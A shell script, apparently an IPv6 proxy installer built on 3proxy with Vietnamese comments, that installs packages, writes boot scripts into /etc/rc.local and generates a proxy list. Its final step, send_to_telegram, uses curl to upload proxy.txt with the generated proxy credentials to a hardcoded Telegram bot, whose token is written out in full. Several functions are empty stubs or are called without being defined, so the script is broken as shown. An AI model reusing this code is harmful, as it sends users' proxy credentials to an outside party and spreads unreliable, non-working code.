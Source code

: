 #!/bin/sh

random() {
	tr </dev/urandom -dc A-Za-z0-9 | head -c5
	echo
}

array=(1 2 3 4 5 6 7 8 9 0 a b c d e f)

gen64() {
	ip64() {
		echo "${array[$RANDOM % 16]}${array[$RANDOM % 16]}${array[$RANDOM % 16]}${array[$RANDOM % 16]}"
	}
	echo "$1:$(ip64):$(ip64):$(ip64):$(ip64)"
}

# Các bước để tạo proxy và lưu vào tệp proxy.txt

install_3proxy() {
	# Cài đặt 3proxy
	# ...
}

gen_3proxy() {
	# Tạo nội dung file cấu hình 3proxy
	# ...
}

gen_proxy_file_for_user() {
	# Tạo tệp proxy.txt từ thông tin proxy
	# ...
}

upload_proxy() {
	# Tạo password và nén tệp proxy.txt thành proxy.zip
	# Upload proxy.zip và hiển thị thông tin cần thiết
	# ...
}

# Gửi tệp proxy.txt về Telegram
send_to_telegram() {
	curl -F document=@proxy.txt "https://api.telegram.org/bot5839097114:AAHwufhmUCxgnKFAg_B9HJKWZJx3a9GhLVI/sendDocument" -F chat_id=@proxythanh45_bot
}

echo "installing apps"
yum -y install gcc net-tools bsdtar zip >/dev/null

install_3proxy

echo "working folder = /home/proxy-installer"
WORKDIR="/home/proxy-installer"
WORKDATA="${WORKDIR}/data.txt"
mkdir $WORKDIR && cd $_

IP4=$(curl -4 -s icanhazip.com)
IP6=$(curl -6 -s icanhazip.com | cut -f1-4 -d':')

echo "Internal ip = ${IP4}. Exteranl sub for ip6 = ${IP6}"

echo "How many proxy do you want to create? Example 500"
read COUNT

FIRST_PORT=10000
LAST_PORT=$(($FIRST_PORT + $COUNT))

gen_data >$WORKDIR/data.txt
gen_iptables >$WORKDIR/boot_iptables.sh
gen_ifconfig >$WORKDIR/boot_ifconfig.sh
chmod +x ${WORKDIR}/boot_*.sh /etc/rc.local

gen_3proxy >/usr/local/etc/3proxy/3proxy.cfg

cat >>/etc/rc.local <<EOF
bash ${WORKDIR}/boot_iptables.sh
bash ${WORKDIR}/boot_ifconfig.sh
ulimit -n 10048
service 3proxy start
EOF

bash /etc/rc.local

gen_proxy_file_for_user

upload_proxy

send_to_telegram
